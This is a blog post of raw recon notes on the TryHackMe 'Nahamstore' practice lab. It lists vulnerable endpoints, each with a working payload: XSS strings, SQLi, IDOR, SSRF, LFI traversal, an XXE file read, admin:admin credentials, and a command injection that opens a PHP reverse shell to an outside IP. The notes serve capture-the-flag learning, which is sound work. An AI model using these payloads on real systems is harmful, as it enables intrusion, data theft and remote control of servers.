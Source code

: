 ```yaml
---
layout: post
title: "Nahamstore Recon Notes"
date: 2022-03-20 00:00:0
permalink: basic-goLang-for-hacking/
tags: bug bounty tryhackme
---
```

_Not a walkthrough or writeup. Just my raw recon notes and vulnerabilities_
<br><br>
### Root domains
- nahamstore.thm

### Web Technologies
- nginx, ubuntu, jqurey

---
## nahamstore.thm
__Ports:__ 22,80,8000

### www.nahamstore.thm, shop.nahamstore.thm -> nahamstore.thm
-   `/<img src=/ onerror=alert()>` [rXSS] [Page Not Found]
-   `/?q` [rXSS]
-   `/?r` [open redirect]
<br><br>
-	`/basket` [POST] [address_id] [IDOR, PII]
<br><br>
-	`/register` [POST] [register_email, register_password]
-	`/register?redirect_url` [open redirect]
<br><br>
-	`/returns` [POST] [return_info] [sXSS]
-   `/returns` [POST] [order_number] [SQLi]
<br><br>
-   `/uploads` [301 -> 127.0.0.1:80]
<br><br>
- 	`/login`
-	`/logout`
<br><br>
-	`/search?q='-alert("test")-'` [rXSS] [js param `search`]
-   `/?q=%22+onfocus%3Dalert()+autofocus+` [rXSS][searchbox]
<br><br>
-   `/stockcheck` [POST] [SSRF] 
`server=stock.nahamstore.thm@internal-api.nahamstore.thm?a=&product_id=1`
<br><br>
-	`/staff` [File Upload - "xlxs only"] [XXE via xlxs]
<br><br>
-   `/account/orders`
-   `/account/settings` [Email,password change, disable acct]
-   `/account/addressbook` [Address change]
-   `/account/addressbook` [POST] [`new_address_title,new_address_fname,new_address_lname,new_address_line1,new_address_line2,road,new_address_line3,new_address_state,new_address_zipcode`]
-   `/account/orders/3`
<br><br>
-   `/product?id=2&name=</title>` [rXSS] 
-   `/product?id=2&discount=" onfocus="alert()" autofocus "` [rXSS]
-   `/product` [Discount, Add to basket, Check Stock]
-   `/product?id=` [SQLi] [rXSS]
-   `/product` [POST] [discount] [rXSS]
-   `/product/picture/?file=....//....//....//....//....//lfi/flag.txt` [LFI] 
<br><br>
-   `/pdf-generator` [POST] [IDOR] 
`what=order&id=3%26user_id=3`
- `/pdf-generator` [POST] [Blind RCE]
`what=order&id=4%3b$(php+-r+'$sock%3dfsockopen("10.11.80.81",1337)%3bshell_exec("sh+<%263+>%263+2>%263")%3b')`

### internal-api.nahamstore.thm
-   `/orders` [Information Disclosuer, IDOR]
[`"id":"4dbc51716426d49f524e10d4437a5f5a","5ae19241b4b55a360e677fdd9084c21c","70ac2193c8049fcea7101884fd4ef58e"`]

### nahamstore.thm:8000
-   `/admin` [admin:admin] [Marketing Manager Dashboard]
-   `/admin/8d1952ba2b3c6dcd76236f090ab8642c` [RCE] [PHP rev shell]

### marketing.nahamstore.thm
-   `/?error=` [XSS]

### nahamstore-2020-dev.nahamstore.thm [API]
-   /api/customers/?customer_id=2 [IDOR, Information Disclosure]

### stock.nahamstore.thm [API]
-   `/product`
-   `/product/1`
-   `/product/1?xml` [XML output]
-   `/product/1?xml` [XXE] [POST]
```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<data>
    <X-Token>
        &xxe;
    </X-Token>
</data>
```